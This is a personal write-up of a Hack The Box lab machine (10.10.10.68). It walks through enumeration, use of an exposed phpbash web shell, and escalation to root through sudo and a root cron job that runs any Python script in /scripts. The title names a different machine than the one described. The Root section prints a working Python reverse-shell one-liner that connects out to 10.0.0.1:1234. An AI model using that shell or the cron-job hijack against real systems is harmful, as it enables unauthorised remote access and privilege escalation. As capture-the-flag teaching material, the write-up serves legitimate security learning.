






# Hack The Box: Sense machine write-up

This was a machine regarded as easy by most users, but I must say I found the root part really challenging. Thankfully, I got it in the end.

The machine is running on IP 10.10.10.68.

#### Enumeration

Firstly, I enumerate open ports to discover the services running in the machine. I ran the following:

```sh
$ nmap -sV -sC 10.10.10.68
```

Then I get that there's a website in port 80, so I head there.

*Webpage running*



There, I find an article about something called 'phpbash', which is like a web command-line. There's also a github repository:

```sh
https://github.com/Arrexel/phpbash
```

Hence, I think there must be some path in the machine where there's a shell. I use dirbuster and after a while I find this path: ``
http://10.10.10.68/dev/phpbash.php
``

After accessing it, I can easily read the user.txt located in ``/home/Arrexel/user.txt``.

#### Root

This is where things get complicated. As I don't like the web shell, I use a python one-liner I got from http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet to get a connection in my terminal (I listen with netcat and connect in port 1234). The code is:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Then, navigating again to the / directory, I find an interesting directory, called scripts (/scripts).

*/ directory*



However, I cannot either cd or see the contents of the file.

*/scripts directory*



Checking with ```sudo -l``` I find out that I can log in as the scriptmanager user without password, who is the creator of the /scripts directory.

*sudo -l output*



Thus, I check whether I can list the files of /scripts with ```sudo -u scriptmanager ls -al /scripts```.

*sudo -l output*



Success!!!

Next step is to get a shell as scriptmanager (so I can avoid repeating ```sudo -u scriptmanager```, which is a bit annoying). So I run in the webshell the python one-liner but I precede it with ```sudo -u scriptmanager```. And that's it, I'm scriptmanager.

After inspecting the files of ```/scripts``` directory, I find something odd: the test.py writes a string to test.txt, the later being owned by root. So, after listing the directories of ```/var/spool/cron/crontabs```, I discover there is a cron job running as root.

Maybe, if I create a python script in the ```/scripts``` directory, it gets run as root. So I create a file which contains a shell and listen with netcat. And, a few minutes later, a root shell spawns!

*Root shell and cron job*



Now I can read the cron job and indeed the system was executing all python scripts in that directory. Machine owned!

<small>_I must say the second part was more difficult than explained, I was stuck at it for over a week until I found out the scriptamanager part and thought about the cron job. However, it was a really rewarding experience._</small>

*Diego Bernal Adelantado*
